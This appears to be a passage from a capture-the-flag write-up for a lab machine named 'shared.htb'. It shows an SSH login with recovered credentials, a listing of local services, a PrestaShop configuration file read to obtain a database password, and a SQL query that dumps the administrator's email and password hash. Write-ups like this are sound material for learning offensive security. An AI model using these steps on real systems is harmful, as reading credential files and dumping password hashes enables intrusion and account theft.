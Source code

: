 Using the user and the password obtained as SSH credentials (`james_mason:Soleil101`) I got access to the machine!

## In the machine as `james_mason`

The first thing I noticed was that both Redis and MySQL were running as local services. This was more or less expected but good to know.

```bash
james_mason@shared:/var/www/shared.htb/ps$ netstat -lntp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Also got the credentials for the database from the Prestashop configuration files. I was able to extract the administrator password and email from it but no luck with the cracking process so moving on for now.

```php
# /var/www/shared.htb/ps/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'pshop',
    'database_user' => 'pshop',
    'database_password' => 'T*k#cbND_C*WrQ9h',
...
```

```
MariaDB [pshop]> select email,passwd from ps_employee;
+------------------+--------------------------------------------------------------+
| email            | passwd                                                       |
+------------------+--------------------------------------------------------------+
| admin@shared.htb | $2y$10$weantheqSfuC7PO4L/tlKefZ59DBBXR7cz5jixaYKyvv3PlPw0xgS |
+------------------+--------------------------------------------------------------+
```
